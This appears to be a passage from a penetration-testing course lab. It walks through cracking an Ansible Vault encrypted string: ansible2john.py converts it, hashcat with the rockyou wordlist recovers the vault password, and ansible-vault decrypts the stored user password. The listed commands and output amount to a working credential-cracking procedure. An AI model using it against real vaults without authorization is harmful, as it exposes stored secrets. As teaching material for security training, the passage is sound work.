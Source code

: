 Note that the original encrypted string needs to be in the same format as shown above in Listing 39, but without any leading whitespace shown or it will fail with parsing errors.

If we run ansible2john.py on the file, it returns a string in a workable format for Hashcat to use.

```
kali@kali:~$ python3 /usr/share/john/ansible2john.py ./test.yml 
test.yml:$ansible$0*0*9661a952b5822af9a21068e7afae3a119ef0312276baf5bc29d6e3ef312029d0*87b6c306f61e89b5c586bd7e182f2806*28870193b1e448c6b45b68766bb731c3bcb77852f7ca54114d70d52121101540
```

> Listing 40 - Converting our Ansible Vault encrypted string to a crackable format

We'll copy the string returned in Listing 40 after the initial filename and colon character into a new file called testhash.txt.

Now we can run hashcat on our file to crack the vault password using the rockyou.txt wordlist.

```
kali@kali:~$ hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...
...
* Device #1: Kernel amp_a0.7da82001.kernel not found in cache! Building may take a while...
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 2 secs

$ansible$0*0*9661a952b5822af9a21068e7afae3a119ef0312276baf5bc29d6e3ef312029d0*87b6c306f61e89b5c586bd7e182f2806*28870193b1e448c6b45b68766bb731c3bcb77852f7ca54114d70d52121101540:spongebob
...
```

> Listing 41 - Cracked the vault password

As indicated in the highlighted result above, Hashcat was able to crack the vault password.

Back on our controller VM, we can copy the original encrypted vault string into a text file and pipe it to ansible-vault decrypt. We're prompted for our vault password ("spongebob") and then vault will provide us with the original, unencrypted password stored in the playbook for the _offsec_ user.

```
ansibleadm@controller:/opt/playbooks$ cat pw.txt
$ANSIBLE_VAULT;1.1;AES256
39363631613935326235383232616639613231303638653761666165336131313965663033313232
3736626166356263323964366533656633313230323964300a323838373031393362316534343863
36623435623638373636626237333163336263623737383532663763613534313134643730643532
3132313130313534300a383762366333303666363165383962356335383662643765313832663238
3036

ansibleadm@controller:/opt/playbooks$ cat pw.txt | ansible-vault decrypt
Vault password: 
lab
Decryption successful
```
